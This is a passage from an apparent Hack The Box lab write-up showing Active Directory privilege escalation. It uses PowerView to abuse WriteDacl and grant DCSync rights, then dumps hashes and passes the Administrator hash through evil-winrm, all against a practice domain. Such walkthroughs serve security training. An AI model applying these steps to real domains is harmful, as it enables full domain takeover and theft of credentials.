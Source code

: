 #### WriteDacl

> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL.
With write access to the target object's DACL, you can grant yourself any privilege you want on the object. 

![](https://i.imgur.com/mBWY21Z.png)

- First let's give us `DCSync` privileges and exploit that
- Here we need [powerview]( https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1) script to execute these commands, so import that

<br>

```js
Import-Module .\PowerView.ps1
Add-Type -AssemblyName System.Management.Automation
$UserName = "HTB\hacker"
$Password = ConvertTo-SecureString "hacker@123" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential($UserName, $Password)
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity hacker -TargetIdentity "DC=htb,DC=local" -Rights DCSync
```
<br>

- Note: You need to specify the user in `-PrincipalIdentiy`, bloodhound page doesn't have that extra argument, so don't forget to add this

#### DCSync

- Now we have DCSync privileges

> The DCSync permission implies having these permissions over the domain itself: DS-Replication-Get-Changes, Replicating Directory Changes All and Replicating Directory Changes In Filtered Set.

- Now we can use `secretssdump.py` to dump the hashes

![](https://i.imgur.com/xxXwyBq.png)

- We can use evil-winrm to login as `Administrator:32693b11e6aa90eb43d32c72a07ceea6`

![](https://i.imgur.com/Ys2EOGJ.png)

- Rooted!!
